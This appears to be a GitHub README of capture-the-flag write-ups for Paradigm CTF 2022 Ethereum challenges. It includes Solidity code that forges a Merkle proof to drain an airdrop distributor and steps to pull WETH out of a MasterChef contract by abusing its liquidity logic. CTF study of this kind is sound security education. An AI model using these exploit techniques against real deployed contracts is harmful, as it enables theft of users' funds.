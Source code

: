 # Paradigm CTF 2022

Some challenges are slightly modified to run locally. Using [forge](https://github.com/foundry-rs/foundry) to run scripts.

```bash
forge script script/Random.s.sol
```

**Table of Contents**
- [RANDOM](#random)
- [MERKLEDROP](#merkledrop)
- [RESCUE](#rescue)
- [SOURCECODE](#sourcecode)
- [VANITY](#vanity)
- [HINTFINANCE](#hintfinance)

## Random

simple task. The meme comes from https://youtu.be/LP1t_pzxKyE?t=251

## MerkleDrop

This task requires you to claim all tokens from a merkle airdrop contract without claiming all the valid indices.

```solidity
function claim(uint256 index, address account, uint96 amount, bytes32[] memory merkleProof) external {
    require(!isClaimed(index), 'MerkleDistributor: Drop already claimed.');
    
    // Verify the merkle proof.
    bytes32 node = keccak256(abi.encodePacked(index, account, amount));
    require(MerkleProof.verify(merkleProof, merkleRoot, node), 'MerkleDistributor: Invalid proof.');
    
    // Mark it claimed and send the token.
    _setClaimed(index);
    require(ERC20Like(token).transfer(account, amount), 'MerkleDistributor: Transfer failed.');
    
    emit Claimed(index, account, amount);
}
```

`claim` from `MerkleDistributor`. `amount` is using type `uint96`, the payload for `claim` happens to be
256+160+96=512. This fits two leafs for the merkle proof. We can use the first two from any intermediate state when constructing the merkle proof.

Example of claiming index 0 with intermediate state.

```solidity
function tryIndex0() public {
    bytes32[] memory proofs = new bytes32[](6);
    proofs[0] = 0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a;
    proofs[1] = 0x0ae01ec0f7a50774e0c1ad35f0f5efcc14c376f675704a6212b483bfbf742a69;
    proofs[2] = 0x3f267b524a6acda73b1d3e54777f40b188c66a14a090cd142a7ec48b13422298;
    proofs[3] = 0xe2eae0dabf8d82b313729f55298625b7ac9ba0f12e408529bae4a2ce405e7d5f;
    proofs[4] = 0x01cf774c22de70195c31bde82dc3ec94807e4e4e01a42aca6d5adccafe09510e;
    proofs[5] = 0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5;
    dist.claim(0, 0x00E21E550021Af51258060A0E18148e36607C9df, 0x09906894166afcc878, proofs);

    // claim(uint256 index, address account, uint96 amount, bytes32[] proofs)
    bytes32 node = keccak256(abi.encodePacked(uint256(0), address(0x00E21E550021Af51258060A0E18148e36607C9df), uint96(0x09906894166afcc878)));
    emit log_named_bytes32("node", node);
    // node      = 0xa9e8f0fbf0d2911d746500a7786606d3fc80abb68a05f77fb730ded04a951c2d
    // proofs[0] = 0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a
    bytes32[] memory fakeProofs = new bytes32[](5);
    fakeProofs[0] = proofs[1];
    fakeProofs[1] = proofs[2];
    fakeProofs[2] = proofs[3];
    fakeProofs[3] = proofs[4];
    fakeProofs[4] = proofs[5];
    dist.claim(0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a, 0xa9e8F0FBF0d2911d746500A7786606d3fC80abb6, uint96(0x8a05f77fb730ded04a951c2d), fakeProofs);
}
```

We created a simple [script](src/MerkleDrop/findVictim.js) to test every index of the tree. Only two indices is within the valid range.

```
total: 75000
index:19, fakeAmount: 0x00000f40f0c122ae08d2207b=72033.43704913257, fakeAddr: 0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A, fakeIndex: 0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442
index:37, fakeAmount: 0x00000f40f0c122ae08d2207b=72033.43704913257, fakeAddr: 0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A, fakeIndex: 0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442
....
index: 8, amount: 2966
....
```

Using index 8 and fake 19/37 will empty the 75000 tokens.

## Rescue

Someone sent WETH to Sushi's MasterChef contract. This task requires us to move the WETH out of the contract.

```solidity
function swapTokenForPoolToken(uint256 poolId, address tokenIn, uint256 amountIn, uint256 minAmountOut) external {
    (address lpToken,,,) = masterchef.poolInfo(poolId);
    address tokenOut0 = UniswapV2PairLike(lpToken).token0();
    address tokenOut1 = UniswapV2PairLike(lpToken).token1();

    ERC20Like(tokenIn).approve(address(router), type(uint256).max);
    ERC20Like(tokenOut0).approve(address(router), type(uint256).max);
    ERC20Like(tokenOut1).approve(address(router), type(uint256).max);
    ERC20Like(tokenIn).transferFrom(msg.sender, address(this), amountIn);

    // swap for both tokens of the lp pool
    _swap(tokenIn, tokenOut0, amountIn / 2);
    _swap(tokenIn, tokenOut1, amountIn / 2);

    // add liquidity and give lp tokens to msg.sender
    _addLiquidity(tokenOut0, tokenOut1, minAmountOut);
}

function _addLiquidity(address token0, address token1, uint256 minAmountOut) internal {
    (,, uint256 amountOut) = router.addLiquidity(
        token0, 
        token1, 
        ERC20Like(token0).balanceOf(address(this)), 
        ERC20Like(token1).balanceOf(address(this)), 
        0, 
        0, 
        msg.sender, 
        block.timestamp
    );
    require(amountOut >= minAmountOut);
}
```

The idea is to trigger the `_addLiquidity` function when we call `swapTokenForPoolToken`.

* Buy exact `10 ether` amount of `DAI` and transfer to `MasterChef`
* Call `swapTokenForPoolToken` with any other tokens.
* When `MasterChef` calls router.addLiquidity, it tells the pool to take all its tokens, including the initial 10 WETH and DAI we transferred.

## SourceCode

This task requires you to write a [quine](https://en.wikipedia.org/wiki/Quine_(computing)) in EVM assembly.

A typical way to implement is:

```javascript
s = "; console.log('s =', JSON.stringify(s), s)" ; console.log('s =', JSON.stringify(s), s)
```

Similar way to do this in EVM

```solidity
// Part1
PUSH <Part2 CODE>
// Part2
DUP CODE             # memory: CODE:CODE
PUSH <PUSH>          # memory: PUSH:CODE:CODE
RETURN 
```

with some tweaks on code size, the [solution](https://www.evm.codes/playground?unit=Wei&codeType=Mnemonic&code='v7w806011526000526070600e536023600ef3yDUP1~11z~00z~70~0ez8~23~0eyRETURN'~yvwzyMSTOREy%5Cnw%200xvPUSH1%01vwyz~_) is

```
# ---- code -----------                          -------- stack ------  ----- memory ---------
PUSH17 0x806011526000526070600e536023600ef3      # code
DUP1                                             # code code
PUSH1 17                                         # 17 code code
MSTORE                                           # code                 0000 code
PUSH1 0                                          # 0 code               0000 code
MSTORE                                           #                      0000 code code
PUSH1 112                                        # 112 (PUSH17)
PUSH1 14                                         # 14 112
MSTORE8                                          #                      0000 PUSH17 code code
PUSH1 67                                         # 67
PUSH1 14                                         # 14 67
RETURN                                           # returns "PUSH17 code code"                     
```


## Vanity

## HintFinance


  
  
  
